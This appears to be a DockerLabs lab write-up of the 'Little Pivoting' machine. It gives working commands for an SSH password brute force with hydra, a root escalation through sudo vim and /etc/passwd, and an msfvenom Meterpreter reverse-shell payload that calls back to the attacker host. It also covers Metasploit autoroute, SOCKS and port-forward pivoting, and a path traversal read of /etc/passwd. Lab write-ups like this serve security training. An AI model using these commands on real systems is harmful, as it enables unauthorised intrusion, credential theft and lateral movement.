# Little Pivoting — DockerLabs

| Field      | Value              |
|------------|--------------------|
| Platform   | DockerLabs         |
| OS         | Linux              |
| Difficulty | Medium             |
| Tags       | gobuster, SSH, hydra, Metasploit, Meterpreter, autoroute, SOCKS proxy, port forwarding, Path Traversal, pivoting |

---

## 1. Reconnaissance — Machine 1

```bash
nmap -sV -sC <IP>
```



Ports: 80 (HTTP/Apache, default page) and 22 (SSH). Ran gobuster to enumerate hidden content:

```bash
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt
```



`/secret.php` revealed a potential username.



---

## 2. Foothold on Machine 1

Brute-forced SSH with hydra:

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://<IP> -I -T 100
```



Logged in as `mario` via SSH.



`mario` had sudo access. Escalated to root (same technique as Trust: sudo vim → edit `/etc/passwd` with UID 0 entry).

---

## 3. Pivoting Setup — Metasploit Meterpreter

To reach a second internal network that Mario's machine could see but Kali couldn't, upgraded the SSH session to a Meterpreter shell for better pivoting capabilities.

Generated a Meterpreter ELF payload:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<KALI-IP> LPORT=4444 -f elf -o shell.elf
```

Set up the Metasploit listener:

```bash
msfconsole -q
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST <KALI-IP>
set LPORT 4444
run
```

Transferred the binary to the victim and executed:

```bash
scp shell.elf mario@<IP>:/tmp/
# On target:
chmod +x /tmp/shell.elf
/tmp/shell.elf
```



---

## 4. Network Routing via Autoroute

With the Meterpreter session open, used the `autoroute` module to make Machine 1's internal network reachable from Kali through the existing session:

```bash
background  # Send session to background

use post/multi/manage/autoroute
sessions -l     # Find session ID
set SESSION 1
run

run autoroute -s 20.20.20.0/24  # Add route to internal subnet
```



Set up a SOCKS proxy to tunnel arbitrary TCP traffic through the Meterpreter session:

```bash
use auxiliary/server/socks_proxy
set VERSION 4a
set SRVPORT 1080
set SRVHOST 127.0.0.1
run -j
```



Configured proxychains to use `127.0.0.1:1080` as the SOCKS4a proxy in `/etc/proxychains.conf`.

---

## 5. Internal Port Forwarding

Set up port forwarding inside Meterpreter to access Machine 2's port 80 directly from Kali's localhost:

```bash
portfwd add -l 1235 -p 80 -r <MACHINE2-IP>
```

This forwarded `127.0.0.1:1235` on Kali to port 80 on Machine 2.



---

## 6. Machine 2 — Path Traversal

Accessed Machine 2 via the forwarded port in a browser (`http://127.0.0.1:1235`):



Directory enumeration via dirb revealed `/shop/`:

```bash
proxychains dirb http://127.0.0.1:1235/
```



Inside `/shop/index.php`, found a `archivo` parameter that was vulnerable to **Path Traversal**:

```
http://127.0.0.1:1235/shop/index.php?archivo=../../../../../../../etc/passwd
```



User `manchi` was found in the passwd file. Used a Metasploit SSH brute force module through the proxy to crack manchi's password with rockyou.txt, then pivoted further.

---

## Key Takeaways

**Pivoting requires routing + proxy.** Autoroute makes the internal subnet reachable at the IP layer, but application-layer tools like browsers need a SOCKS proxy to go through the Meterpreter session. Both components must be configured.

**Port forwarding simplifies access to specific services.** Instead of proxying every tool, `portfwd` maps the remote port directly to a local port — browsers and non-proxy-aware tools can then reach it natively.

**Path traversal on Machine 2 was only reachable via pivoting.** This highlights why internal networks are valuable: services that appear locked away often have weaker security because admins assume they're not externally reachable.

**Chain pivots systematically:** foothold → route → proxy → enumerate → repeat.
